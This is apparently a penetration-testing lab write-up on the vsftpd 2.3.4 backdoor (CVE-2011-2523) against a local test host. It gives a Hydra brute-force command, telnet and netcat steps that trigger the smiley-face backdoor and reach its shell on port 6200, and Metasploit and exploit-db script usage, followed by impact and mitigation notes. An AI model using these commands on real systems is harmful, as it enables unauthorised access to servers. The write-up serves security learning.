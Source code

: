 # vsftpd 2.3.4

## Introduction

- vsftpd is an `FTP server` for Unix-like systems, including Linux
- Port: 21 which is the default FTP port.

## Anonymous Login

- There could be some files or directories that are publicly accessible through anonymous users that can leak sensitive data.
- We can FTP login with anonymous user. However, no files, directories or directory traversal found. We also do not have access to write or upload any file.

## Bruteforcing via Hydra

- Default and weak passwords are vulnerable to bruteforce attacks leading to unauthorized access of FTP shares.
- Trying to bruteforce using common usernames and password lists:
	- `hydra 172.16.242.129 ftp -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -t 50`
		- ftp: Specifies the protocol to attack, in this case, FTP.
		- -L : Specifies the path to a file containing a list of usernames to try during the attack.
		- -P : Specifies the path to a file containing a list of passwords to attempt.
		- -t 50: Sets the number of parallel connections (threads) to use for the attack. It is not generally recommanded to use these large number of threads as they can trigger security mechanisms on the target but since this is on our local machine, 50 threads are fine.
- However, bruteforcing lead to no correct credentials that can be used to login via FTP.

## Searchsploit

- SearchSploit is a command-line search tool for Exploit-DB that allows you to take a copy of the Exploit Database with you.
- `searchsploit vsftpd 2.3.4`
	
	![searchsploit results](../images/vsftpd_2.3.4.jpeg)

- SearchSploit reveals that there is `Backdoor Command Execution` vulnerability present in vsftpd 2.3.4 version of FTP.

## vsftpd 2.3.4 - Backdoor Command Execution - Smiley [:)] Face backdoor (CVE: 2011-2523)

- The version of vsftpd running on the remote host has been compiled with a backdoor. Attempting to login with a `username containing :)` (a smiley face) triggers the backdoor, which results in a shell listening on TCP `port 6200`. The shell stops listening after a client connects to and disconnects from it. [ Source: https://www.tenable.com/plugins/nessus/55523]
- The source code of this version of vsftpd was modified either through access of distributing website or the distributing server.

- We can see in the if the bytes of the input match `0x3a` [":" from HEX] and `0x29` [")" from HEX], the `vsf_sysutil_extra()` function will get executed.

[backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_017.jpg)

- The `vsf_sysutil_extra()` function contains the following code. We can clearly see that it attempts to open port 6200 through `htons(6200)` and provides a shell with `execl("/bin/sh")` so that attacker can interact with the system.

![backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_018.jpg)

### Impact Analysis

- Since this vulnerability starts a backdoor, it gives Remote Code Execution [RCE] and full access of the system as the user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is very high.

### Proof of Concept

- This vulnerability can be exploited either through Metasploit or manually through an automated script or command line.

- Command Line Exploitation:
	- Connect to FTP using telent or netcat:
		- `telnet 172.16.242.129 21`
		- `USER user_name:)`  # username doesn't matter as long as it contains smiley face [:)]
		- `PASS any_password` # password doesn't matter
		- This should've opened port `6200` on the host machine that runs the backdoor.

		![backdoor command injection](../images/backdoor_command_inject_vsftpd_1.jpeg)

	- Use telent or netcat to connect on `6200` port backdoor:
		- `nc 172.16.242.129 6200`
		- `id` # verify Connection

		![backdoor command injection](../images/backdoor_command_inject_vsftpd_2.jpeg)

- Automated Script Exploitation:
	- Script can be downloaded from exploit-db [https://www.exploit-db.com/exploits/49757] or copied from searchsploit tool.
	- Usage:
		- `python3 49757.py <IP_ADDRESS>`

- Metsploit Exploitation:
	- We can use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit from metasploit and gain access through backdoor easily.
		- `use exploit/unix/ftp/vsftpd_234_backdoor` 
	- We can see what all parameters we need to set in order to exploit the machine using:
		- `show options` 

		![backdoor command injection](../images/backdoor_command_inject_vsftpd_msf_1.jpeg)

	- Set target(s) (RHOSTS):
		- `set RHOSTS <IP_ADDRESS>`
	- Execute the attack using run or exploit command:
		- `exploit`

		![backdoor command injection](../images/backdoor_command_inject_vsftpd_msf_2.jpeg)


### Patches and Updates:

- The developers of vsftpd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

### Mitigation

- Software Integrity and Authenticity Checks using CheckSums and digital signatures.
- Regular updates and stronger credentials.
- Setting up services as non-root user in a sandbox or isolated environment.

## References

- https://www.tenable.com/plugins/nessus/55523
- https://subscription.packtpub.com/book/security/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
- https://www.exploit-db.com/exploits/49757

## Conclusion

- The examination of the vsftpd 2.3.4 backdoor vulnerability underscores the critical importance of maintaining robust security practices. 
- This vulnerability illustrates how seemingly minor oversights can lead to significant security breaches, enabling unauthorized remote code execution.
- Effective mitigation involves regular updates, stringent software integrity checks, and operating services with minimal privileges.
- This case study highlights the necessity for continuous vigilance and proactive security measures to protect against sophisticated cyber threats.